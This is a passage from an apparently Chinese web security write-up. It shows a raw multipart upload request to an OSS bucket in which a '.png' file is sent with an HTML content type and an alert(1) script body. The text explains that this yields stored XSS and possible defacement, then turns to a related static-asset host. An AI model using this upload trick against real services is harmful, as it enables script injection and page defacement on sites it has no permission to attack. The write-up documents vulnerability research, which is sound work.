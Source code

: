     Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryral5YOuPBEepOBbe  
      
    Referer: https://xxxx.cn/xx/  
      
    Accept-Encoding: gzip, deflate  
      
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8  
      
    \------WebKitFormBoundaryral5YOuPBEepOBbe  
      
    Content-Disposition: form-data; name="name"  
      
    165027756922712.png  
      
    \------WebKitFormBoundaryral5YOuPBEepOBbe  
      
    Content-Disposition: form-data; name="key"  
      
    20220418/3a7166a3063f7a82774bdd62727fb5fa251650277569228.png  
      
    \------WebKitFormBoundaryral5YOuPBEepOBbe  
      
    Content-Disposition: form-data; name="policy"  
      
    eyJleHBpcmF0aW9uIjoiMjAyMi0wNC0xOFQxNzoyMzoyOFoiLCJjb25kaXRpb25zIjpbWyJjb250ZW50LWxlbmd0aC1yYW5nZSIsMCwxMDQ4NTc2MDAwXSxbInN0YXJ0cy13aXRoIiwiJGtleSIsIjIwMjIwNDE4XC8iXV19  
      
    \------WebKitFormBoundaryral5YOuPBEepOBbe  
      
    Content-Disposition: form-data; name="OSSAccessKeyId"  
      
    xxxxx  
      
    \------WebKitFormBoundaryral5YOuPBEepOBbe  
      
    Content-Disposition: form-data; name="success\_action\_status"  
      
    200  
      
    \------WebKitFormBoundaryral5YOuPBEepOBbe  
      
    Content-Disposition: form-data; name="signature"  
      
    xxxxx  
      
    \------WebKitFormBoundaryral5YOuPBEepOBbe  
      
    Content-Disposition: form-data; name="file"; filename="12.png"  
      
    Content-Type: text/html  
      
    <script>alert(1)</script>  
      
    \------WebKitFormBoundaryral5YOuPBEepOBbe—

![]()

拼接上去就造成了存储xss，当然也可以挂黑页等操作，由于这是oss云服务器，并且域名太长没实际性危害，接着就想着继续提高危害。

![]()

在他的其他网站下static图片地址引起了我的注意，static不也是存放静态资源图片等信息的服务器吗？而oss也是一样的，那么两者是否会相通呢？

![]()
